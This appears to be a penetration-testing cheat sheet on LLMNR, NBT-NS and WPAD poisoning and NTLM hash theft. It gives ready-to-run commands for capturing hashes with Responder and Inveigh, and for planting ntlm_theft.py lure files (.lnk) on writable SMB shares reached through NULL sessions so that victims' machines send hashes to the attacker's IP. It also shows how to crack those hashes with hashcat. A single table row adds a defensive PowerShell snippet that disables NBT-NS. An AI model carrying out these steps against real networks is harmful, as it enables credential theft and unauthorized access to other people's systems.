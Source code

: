 ## LLMNR (Link-Local Multicast Name Resolution)

## NBT-NS (NetBIOS Name Server)

## WPAD (Web Proxy Auto-Discovery)

### Tools: Responder, Hashcat, ntlm_theft.py, Invoke-Inveigh, Inveighzero https://github.com/Kevin-Robertson/Inveigh

### Github repo: https://github.com/Greenwolf/ntlm_theft

## Steps:

#### 1) sudo responder -I YOUR_INTERFACE

#### 2) Leave it for a bit (average 10 minutes)

#### 3) Offline cracking with hashcat ( hashcat -m 5600 HASHFILE PASSWORDFILE --force )

## NTLM Hash stealing:

#### 1) Connect to SMB ( If you have no credentials, connect via NULL session if it is allowed) smbclient -N \\\\IP_ADDRESS\\

#### 2) Check if you have write access to the share you are connected to.

#### 3) Create the malicious payload

    python3 ntlm_theft.py -g all -s OUR_IP -f FOLDER_NAME 

#### 4) Activate Responder

    sudo responder -I INTERFACE

#### 5) Upload an .lnk file to the writeable share

#### 6) After a few minutes you should have captured the hash of the user that tried to interact with our file

#### 7) Crack with hashcat

    hashcat -m 5600 HASHFILE /usr/share/wordlists/rockyou.txt

### .\inveighzero.exe -FileOutput Y -NBNS Y -mDNS Y -Proxy Y -MachineAccounts Y -DHCPv6

#### More information:

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `responder -h`                                               | Used to display the usage instructions and various options available in `Responder` from a Linux-based host. |
| `hashcat -m 5600 forend_ntlmv2 /usr/share/wordlists/rockyou.txt` | Uses `hashcat` to crack `NTLMv2` (`-m`) hashes that were captured by responder and saved in a file (`frond_ntlmv2`). The cracking is done based on a specified wordlist. |
| `Import-Module .\Inveigh.ps1`                                | Using the `Import-Module` PowerShell cmd-let to import the Windows-based tool `Inveigh.ps1`. |
| `(Get-Command Invoke-Inveigh).Parameters`                    | Used to output many of the options & functionality available with `Invoke-Inveigh`. Peformed from a Windows-based host. |
| `Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y`    | Starts `Inveigh` on a Windows-based host with LLMNR & NBNS spoofing enabled and outputs the results to a file. |
| `.\Inveigh.exe`                                              | Starts the `C#` implementation of `Inveigh` from a Windows-based host. |
| `$regkey = "HKLM:SYSTEM\CurrentControlSet\services\NetBT\Parameters\Interfaces" Get-ChildItem $regkey \|foreach { Set-ItemProperty -Path "$regkey\$($_.pschildname)" -Name NetbiosOptions -Value 2 -Verbose}` | PowerShell script used to disable NBT-NS on a Windows host.  |


